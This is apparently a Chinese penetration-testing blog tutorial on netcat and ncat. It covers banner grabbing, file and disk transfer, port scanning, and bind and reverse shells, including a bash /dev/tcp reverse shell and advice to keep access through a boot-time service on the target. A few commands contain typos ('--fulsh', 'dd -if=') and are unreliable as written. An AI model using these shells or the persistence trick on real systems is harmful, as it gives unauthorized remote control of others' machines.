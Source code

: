 ```yaml
---
title: 工具 - netcat使用
categories:
- 渗透测试
tags:
- 渗透测试
- nc
abbrlink: 13625
date: 2020-03-15 15:35:40
---
```




# netcat使用


## 简介
- 侦听模式/传输模式
- 可以替代telent  / 获取banner信息
- 传输文本信息
- 传输文件/目录
- 加密传输文件
- 远程控制/木马
- 加密所有流量
- 流媒体服务器
- 远程克隆硬盘


## 基本用法
####  <font color=red>1. 实现telnet / banner</font>
```bash
# 题外话:追踪路由
mtr 114.114.114.114 

## nc作为客户端：
# 参数 -v  显示详细信息 
# 参数  -n  如果是域名,不进行域名解析(建议直接跟ip地址)
nc -nv 1.1.1.1 110   # 连接pop3服务器，可以看到banner信息（可以进行user登录[base64编码],输入指令）
nc -nv 1.1.1.1 25    # smtp服务器
nc -nv 1.1.1.1 80    # 探测80端口(都可进行交互的命令)

```

####  <font color=red>2.传输文本信息</font>
```bash
# 可以做聊天用
# 一台作为服务端    -l 监听, -p 端口
nc -l -p 4444
# 另一台作为客户端去连接服务端
nc -nv 1.1.1.1 4444

```
![](http://image.xpshuai.cn/nc_use.png)

###### 用途：
**远程电子取证** (原则:尽可能少修改被审计系统的状态，避免影响证据)
就可以用`nc`来操作:
我的电脑: `nc -l -p 3333`  监听
被审计系统:`ls -l | nc -nv 1.1.1.1 3333` 输出到我的电脑

我的电脑: `nc -l -p 3333 > ps.txt`   输出结果重定向到文件
被审计系统:`ps -ef | nc -nv 1.1.1.1 3333 -q 1`    参数-q: 输出完成之后过1秒就断开

题外话：`lsof` 查看已经打开的文件



####  <font color=red>3.传输文件/目录</font>
###### 传输文件
```bash
# 客户端向服务端传输  （正向） 
A： nc-lp 3333 > 1.mp4
B:  nc -nv 1.1.1.1 3333 < 1.mp4 -q 1
# 或者, 服务端向客户端传输文件  （反向）
A:  nc -q 1 -lp 3333 < a.mp4
B:  nc -nv 1.1.1.1 3333 > 2.mp4
```

###### 传输目录
```bash
# 正向(服务端先打包再传给客户端,注意小横线别遗漏)
A:  tar -cvf - music/ | nc -lp 3333 -q 1
B:  nc -nv 1.1.1.1 3333 | tar -xvf -     # 先接收再解包
```

###### 加密传文件
```bash
A： nc -lp 3333 | mcrypt --flush -Fbqd -a rijndael-256-m ecb > 1.mp4     # 接收，解密
B： mcrypt --fulsh -Fbq -a rijndael-256-m ecb < a.mp4 | nc 1.1.1.1 3333 -q 1   # 加密，传送
# 需要输入加密秘钥，解密秘钥
# 不是nc的加密功能，是操作系统的加密命令，可以自行安装
```

#### <font color=red>4.流媒体</font>
```bash
#把视频流输出到B端
A:  cat 1.mp4 | nc -lp 3333
B:  nc -nv 1.1.1.1 3333 | mplayer -vo x11 -cache 3000 -
#接收视频流，输出给指定播放器和缓存进行播放
```

#### <font color=red>5.端口扫描</font>
>以客户端角色
```bash
#并非擅长端口扫描
#参数 -z 扫描参数，只判断是否开放（默认tcp）
nc -nvz 1.1.1.1 1-65535
#参数 -u  扫描udp服务的端口 （不太准确）
nc -nvzu 1.1.1.1 1-1024
```

#### <font color=red>6.远程克隆硬盘</font>
**远程电子取证**，可以将目标服务器硬盘远程复制(`块`级别的备份,`磁盘磁道的状态原原本本的复制`)，或者内存(内存中运行的病毒进程)
```bash
A:  nc -lp 3333 | dd of=/dev/sda
B:  dd -if=/dev/sda | nc -nv 1.1.1.1 3333 -q 1
```

####  <font color=red>7.远程控制</font>
参数: -c 
**正向：**   目标机器作为服务端监听, 把bash传给我
```bash
A:  nc -lp 3333 -c bash   #目标机器
B:  nc 1.1.1.1 3333
```
**反向：**    我的机器作为服务端, 让目标机器作为客户端主动连接我(客户端把bash传给服务器端)
```bash
A:  nc -lvp 3333       
B:  nc 1.1.1.1 3333 -c bash    #目标机器

#假如nc不支持-c 或者 -e 参数（openbsd netcat）,我们仍然能够创建远程shell
目标机器： bash -i >& /dev/tcp/192.168.41.133/2223 0>&1
攻击方： nc -lvvp 2223
```

>Note: Windows用户把bash改为cmd

> 反向连接用的多， 因为好多都限制进入的流量而不太多限制出去的流量(根据他允许的端口调整,比如dns)

> 长久维持会话： 写成脚本作为系统服务，让目标机器已启动就连接我



## ncat 命令
<font color=red> **nc缺陷：**</font>
- nc缺乏加密能力：是数据是明文传输（容易被别人嗅探）
- 缺乏身份验证能力：端口如果一直向外开放，容易被他人连接窃取当做肉鸡
- 不同系统/平台的nc参数功能不尽相同（自己 -h 查看帮助文档和测试）

<font color=red> **ncat 命令**</font>
是包含在nmap工具包中里面的一个东西(弥补了nc缺乏加密和身份验证的不足)

正向连接：
```bash
#先进行了秘钥交换和加密
#被控端(服务器端)   -allow允许连接的ip， 端口, ssl加密
A:  ncat -c bash -allow 192.168.1.20 -vnl 3333 --ssl
B:  ncat -nv 192.168.1.19 3333 --ssl      #攻击端
```

## 其他
... ...


